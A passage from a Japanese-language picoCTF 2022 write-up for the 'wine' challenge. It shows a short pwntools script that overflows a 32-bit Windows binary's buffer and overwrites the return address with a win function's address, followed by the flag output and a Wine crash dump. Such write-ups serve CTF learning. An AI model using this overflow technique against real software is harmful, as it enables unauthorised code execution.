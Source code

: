 Ghidraでも確認できました。

<img src="https://captureamerica.github.io/writeups/img/pico2022_wine_ghidra.png" alt="pico2022_wine_ghidra.png">

<br />

以下が書いたコードです。

s.sendlineafter()のところでは、pcapで見たところ改行が `0d0a` で来ていたので `\r\n` でパターンを指定しています。Windowsだからね。

```Python
#!/usr/bin/env python
from pwn import *

s = remote('saturn.picoctf.net', 61540)

payload = b'A' * 128
payload += b'B' * 12
payload += p32(0x401530) # win

s.sendlineafter("Give me a string!\r\n", payload)
s.interactive()
```

<br />

実行結果：

<pre>
$ ./wine_solve.py
[+] Opening connection to saturn.picoctf.net on port 61540: Done
[*] Switching to interactive mode
picoCTF{Un_v3rr3_d3_v1n_cdac4d01}
Unhandled exception: page fault on read access to 0x00000000 in 32-bit code (0x00000000).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:00000000 ESP:0064fe8c EBP:00401530 EFLAGS:00010206(  R- --  I   - -P- )
 EAX:00000000 EBX:00230e78 ECX:0064fe1c EDX:7fec48f4
 ESI:00000005 EDI:006d2250
Stack dump:
0x0064fe8c:  00000000 7b432ecc 00230e78 0064ff28
0x0064fe9c:  00401386 00000002 00230e70 0021d220
0x0064feac:  7bcc4625 00000004 00000008 00230e70
0x0064febc:  006d2250 00050c4d 17e5a340 00000000
0x0064fecc:  00000000 00000000 00000000 00000000
0x0064fedc:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x00000000 (0x00401530)
  1 0x44c768ec (0x83e58955)
0x00000000: -- no code accessible --
Modules:
Module    Address            Debug info    Name (5 modules)
PE      400000-  44b000    Deferred        vuln
PE    7b020000-7b023000    Deferred        kernelbase
PE    7b420000-7b5db000    Deferred        kernel32
PE    7bc30000-7bc34000    Deferred        ntdll
PE    7fe10000-7fe14000    Deferred        msvcrt
Threads:
process  tid      prio (all id:s are in hex)
00000008 (D) Z:\challenge\vuln.exe
    00000009    0 <==
0000000e services.exe
    00000026    0
    00000025    0
    00000024    0
    00000015    0
    00000010    0